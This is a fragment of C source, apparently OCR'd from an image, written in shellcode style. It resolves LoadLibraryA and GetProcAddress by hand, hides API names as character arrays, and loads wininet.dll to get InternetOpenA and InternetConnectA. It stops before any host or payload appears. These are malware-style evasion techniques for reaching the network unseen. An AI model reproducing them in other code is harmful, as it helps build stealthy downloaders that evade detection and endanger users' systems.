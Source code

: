         // resolve loadlibraryA() address
        LPVOID load_lib = get_func_by_name((HMODULE)base, (LPSTR)load_lib_name);
        if (!load_lib) {
            return 2;
        }

        // resolve getprocaddress() address
        LPVOID get_proc = get_func_by_name((HMODULE)base, (LPSTR)get_proc_name);
        if (!get_proc) {
            return 3;
        }

        // loadlibrarya and getprocaddress function definitions
        HMODULE(WINAPI * _LoadLibraryA)(LPCSTR lpLibFileName) = (HMODULE(WINAPI*)(LPCSTR))load_lib;
        FARPROC(WINAPI * _GetProcAddress)(HMODULE hModule, LPCSTR lpProcName)
            = (FARPROC(WINAPI*)(HMODULE, LPCSTR)) get_proc;

        char wininet_dll_name[] = { 'w','i','n','i','n','e','t','.','d','l','l', 0 };
        char internetopenw_name[] = { 'I','n','t','e','r','n','e','t','O','p','e','n','A',0 };
        LPVOID wininet_dll = _LoadLibraryA(wininet_dll_name);

        HINTERNET (WINAPI * _InternetOpenA)(
            _In_opt_ LPCSTR lpszAgent,
            _In_opt_ DWORD   dwAccessType,
            _In_opt_ LPCSTR lpszProxy,
            _In_opt_ LPCSTR lpszProxyBypass,
            _In_ DWORD   dwFlags
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ LPCSTR lpszAgent,
                _In_opt_ DWORD   dwAccessType,
                _In_opt_ LPCSTR lpszProxy,
                _In_opt_ LPCSTR lpszProxyBypass,
                _In_ DWORD   dwFlags)) _GetProcAddress((HMODULE)wininet_dll, internetopenw_name);

        char internetconnecta_name[] = { 'I','n','t','e','r','n','e','t','C','o','n','n','e','c','t','A',0 };
        HINTERNET (WINAPI * _InternetConnectA)(
            _In_opt_ HINTERNET     hInternet,
            _In_opt_ LPCSTR       lpszServerName,
            _In_opt_ int nServerPort,
            _In_opt_ LPCSTR       lpszUserName,
            _In_opt_ LPCSTR       lpszPassword,
            _In_opt_ DWORD         dwService,
            _In_opt_ DWORD         dwFlags,
            _In_ DWORD_PTR     dwContext
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ HINTERNET     hInternet,
                _In_opt_ LPCSTR       lpszServerName,
                _In_opt_ int nServerPort,
                _In_opt_ LPCSTR       lpszUserName,
                _In_opt_ LPCSTR       lpszPassword,
                _In_opt_ DWORD         dwService,
                _In_opt_ DWORD         dwFlags,
                _In_ DWORD_PTR     dwContext
                )) _GetProcAddress((HMODULE)wininet_dll, internetconnecta_name);
